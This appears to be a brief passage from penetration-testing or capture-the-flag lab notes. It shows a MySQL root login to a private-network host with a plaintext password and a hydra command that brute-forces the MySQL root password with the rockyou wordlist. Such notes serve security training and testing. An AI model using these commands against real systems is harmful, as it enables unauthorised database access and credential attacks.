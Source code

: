 Connect to DB:
```bash
mysql --host=192.168.206.118 --user=root --password=prettywoman
```

Brute passwords with hydra:
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.206.118 mysql
```

